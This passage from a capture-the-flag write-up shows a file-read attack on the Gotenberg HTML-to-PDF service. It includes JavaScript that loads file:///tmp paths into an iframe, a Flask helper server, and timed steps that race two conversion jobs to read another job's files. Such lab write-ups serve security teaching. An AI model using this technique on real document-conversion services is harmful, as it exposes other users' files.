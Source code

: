 ```html
    .then(response => {
      return response.text();
    })
    .then(responseText => {
      flagFilePath = responseText;
      if (flagFilePath !== '') {
        frame.src = `file:///tmp/${workingDirectory}/${flagFilePath}/index.html`;
      }
    });
}, 1000);
</script>
```

Our Python Flask web application:

```python
#!/usr/bin/env python3
from flask import Flask
from flask_cors import CORS
from os import getenv

app = Flask(__name__)
cors = CORS(app)

@app.route('/flag')
def flag():
    flagFilePath = '' # modify this with the correct flag path when you leaked it
    return flagFilePath

if __name__ == '__main__':
    app.run('0.0.0.0', debug=True)
```

Now, we can send the both conversion processes at the same time. That way, the flag process will be executed after finishing the second conversion.

## Exploitation

Armed with above information, we can follow these steps to read the flag:
1. Send the these 2 requests:
    - First, convert our HTML file into PDF with 6 seconds delay leaking the correct flag path (6 seconds is because we can make sure the flag conversion process must be in the ready queue.)
    - Then, convert our HTML file into PDF with ~20 seconds delay reading the flag conversion's `index.html` file (If the delay is more than 30 seconds, Gotenberg will time out the process. And the ~20 seconds delay is to give yourself more time to provide the correct path.)
2. After finishing the first request, we immediately extract the text from the PDF file and get the correct flag path
3. Provide the correct flag path in our web server
4. Wait for the second request finished, and read the converted PDF file's flag

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>
